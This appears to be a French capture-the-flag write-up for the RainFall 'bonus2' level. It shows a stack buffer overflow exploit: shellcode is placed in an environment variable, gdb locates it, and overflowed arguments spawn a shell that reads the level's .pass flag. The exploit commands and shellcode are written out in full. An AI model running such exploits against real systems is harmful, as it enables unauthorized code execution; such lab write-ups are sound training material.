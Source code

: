 Maintenant nous créons une variable d'environnement avec notre shellcode dedans
```
export EXPLOIT=$(python -c 'print "\x90" * 20 + "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')
```

```
bonus2@RainFall:~$ echo $EXPLOIT 
1Ph//shh/binPS
              
```

On trouve l'adresse de notre shellcode dans gdb
```
(gdb) x/10s *((char **) environ)
0xbffffdef:      "EXPLOIT=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300\231Ph//shh/bin\211\343PS\211\341\260\v\315\200"
0xbffffe24:      "SHELL=/bin/bash"
0xbffffe34:      "TERM=tmux-256color"
0xbffffe47:      "SSH_CLIENT=172.16.239.146 42506 4242"
0xbffffe6c:      "SSH_TTY=/dev/pts/0"
0xbffffe7f:      "USER=bonus2"
0xbffffe8b:      "LS_COLORS="
0xbffffe96:      "COLUMNS=139"
0xbffffea2:      "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games"
0xbffffeef:      "MAIL=/var/mail/bonus2"
```

```
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A" * 200') $(python -c 'print "B" * 23 + "\xfe\xfd\xff\xbf"')
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBB
process 14619 is executing new program: /bin/dash
$ whoami
bonus2
```


```
$ cat .pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
$ whoami
bonus2
```
